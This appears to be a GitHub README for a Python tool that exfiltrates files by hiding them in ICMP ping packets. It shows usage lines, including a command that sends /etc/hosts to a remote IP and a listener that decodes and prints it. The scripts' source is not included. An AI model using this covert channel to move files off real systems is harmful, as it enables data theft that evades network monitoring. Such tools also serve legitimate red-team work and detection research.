 # ICMP-Data-Exfiltration

This program is used to send data over the network inside "ICMP Packets", with the help of the "PING" command.
You can send any type of file over the network between two hosts simply by pinging the destination host.


## Examples of How To Use
The program has two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any icmp packet that are coming towards our host machine, once we start receiving packets
this file will automatically decode the message and print it to the display.

Second file "icmp_sendData.py", with the help of this file we will send the file we want to another host where it is
listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" and the script will automatically 
convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

[!] Usage icmp_exfiltration.py <Interface-Name>                               
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

[!] Usage icmp_sendData.py <IP-Address> <File-Name>                            
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py vmnet8
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters                         
```
First we will run "icmp_exfiltration.py" file by specifying on which interface we want to listen.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

[+] Trying to send file...

[+] File sent successfully.                        
```
Then from another host we will run the "icmp_sendData.py" and the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.

